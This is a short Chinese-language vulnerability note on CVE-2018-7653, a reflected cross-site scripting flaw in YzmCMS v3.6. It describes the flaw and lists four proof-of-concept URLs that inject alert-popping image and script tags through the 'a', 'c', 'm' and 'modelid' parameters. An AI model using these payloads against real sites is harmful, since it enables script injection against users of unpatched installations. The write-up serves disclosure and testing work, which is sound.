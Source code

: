 # （CVE-2018-7653）YzmCMS v3.6 xss 漏洞

> 原文：[http://book.iwonder.run/0day/YzmCMS/CVE-2018-7653.html](http://book.iwonder.run/0day/YzmCMS/CVE-2018-7653.html)

## 一、漏洞简介

YzmCMS 是中国程序员袁志蒙开发的一套开源的 CMS（内容管理系统）。 YzmCMS 3.6 版本中存在跨站脚本漏洞。远程攻击者可借助‘a’、‘c’或‘m’参数利用该漏洞注入任意的 Web 脚本或 HTML。

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

### poc

```
http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=initxqb4n%3Cimg%20src%3da%20onerror%3dalert(1)%3Ecu9rs&modelid=1&q=tes 

http://www.0-sec.org/YzmCMS/index.php?m=search&c=indexf9q6s%3cimg%20src%3da%20onerror%3dalert(1)%3ej4yck&a=init&modelid=1&q=tes 

http://www.0-sec.org/YzmCMS/index.php?m=searchr81z4%3cimg%20src%3da%20onerror%3dalert(1)%3eo92wf&c=index&a=init&modelid=1&q=tes 

http://www.0-sec.org/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eopzx0&q=tes 
```

## 参考链接

> [https://www.anquanke.com/vul/id/1124944](https://www.anquanke.com/vul/id/1124944)

